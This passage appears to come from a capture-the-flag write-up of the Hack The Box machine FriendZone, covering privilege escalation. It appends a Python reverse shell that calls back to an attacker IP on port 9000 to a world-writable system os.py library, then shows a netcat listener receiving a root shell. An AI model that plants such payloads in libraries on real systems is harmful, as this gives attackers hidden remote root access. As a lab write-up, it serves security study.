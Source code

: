 This.. is somewhat unrealistic, but `os.py` library is globally writeable.
Let's backup the `os.py` first.

```bash
friend@FriendZone:/usr/lib/python2.7$ cp os.py os.py_backup
```

Then, overwrite current one with our own payload.

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.15",9000));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/sh")
```

I modified the original payload slightly.
Since we are editing `os.py`, I kept the original code and change `os.dup2` to `dup2`.

```bash
friend@FriendZone:/usr/lib/python2.7$ vi os.py

<SNIP>

def _make_statvfs_result(tup, dict):
    return statvfs_result(tup, dict)

def _pickle_statvfs_result(sr):
    (type, args) = sr.__reduce__()
    return (_make_statvfs_result, args)

try:
    _copy_reg.pickle(statvfs_result, _pickle_statvfs_result,
                     _make_statvfs_result)
except NameError: # statvfs_result may not exist
    pass


import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.15",9000))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/sh")
```


Then, let's wait on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000                 
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.123] 43508
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```

I got a `root` shell!